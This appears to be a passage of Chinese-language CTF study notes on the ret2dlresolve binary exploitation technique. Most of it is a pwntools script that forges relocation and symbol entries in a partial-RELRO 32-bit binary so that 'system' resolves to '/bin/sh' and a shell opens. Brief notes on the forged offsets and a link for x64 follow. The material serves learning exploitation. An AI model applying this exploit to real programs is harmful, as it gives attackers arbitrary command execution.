 ```python
fake_arg = fake_write_addr - rel_plt
r_offset = elf.got['write']

align = 0x10 - ((base_stage + 28 +8 - dynsym_base) %16)
fake_sym_addr = fake_write_addr+ 0x8 +align
fake_sym = flat(p32(fake_name),p32(0),p32(0),p32(0x12))
r_info = ((((fake_sym_addr - dynsym_base)//16) << 8) | 0x7)
fake_write = flat(p32(r_offset),p32(r_info))
fake_write_str = 'system\x00'

# payload1 = b'a'*4 + p32(plt_0) + p32(index_offset) + b'aaaa' + p32(1) + p32(base_stage+28 )+p32(len(b"/bin/sh\x00"))+ b"/bin/sh\x00"
# payload1.ljust(100,b"a")

# payload2 = b'a'*4 + p32(plt_0)+p32(fake_arg) +b'aaaa' + p32(1) + p32(base_stage+36 )+p32(len(b"/bin/sh\x00"))+ fake_write +b"/bin/sh\x00"
# payload2.ljust(100,b"a")

#payload2 = b'a'*4 + p32(plt_0)+p32(fake_arg) +b'aaaa' + p32(1) + p32(base_stage + 36+16+align )+p32(len(b"/bin/sh\x00"))
#payload2 += fake_write + b'a'*align + fake_sym + b"/bin/sh\x00"
#payload2 = payload2.ljust(100,b"a")

payload2 = b'a'*4 + p32(plt_0)+p32(fake_arg) +b'aaaa' + p32(base_stage + 28+align+16+ len('system\x00') )+ fake_write + b'a'*align + fake_sym + fake_write_str + b"/bin/sh\x00"
payload2 = payload2.ljust(100,b"a")

r.sendline(payload2)
r.interactive()
```

ret2dlresolve的漏洞利用在partial-RELRO上主要是通过对：

`reloc_offset`、`.rel.plt`中的`rel_info`、 `.dynsym`中的`st_name`的这三个地方的伪造

并且都是对其偏移值的伪造，比如说

```python
fake_name = fake_write_str_addr - strtab

r_info = ((((fake_sym_addr - dynsym_base)//16) << 8) | 0x7) 

fake_arg = fake_write_addr - rel_plt
```

# 64位

## partial RELRO

64位的partial RELRO与之前的所有操作都是有区别的
主要看这个博客，关注最后的x64部分

[ret2dlresolve超详细教程(x86&x64)](https://blog.csdn.net/qq_51868336/article/details/114644569)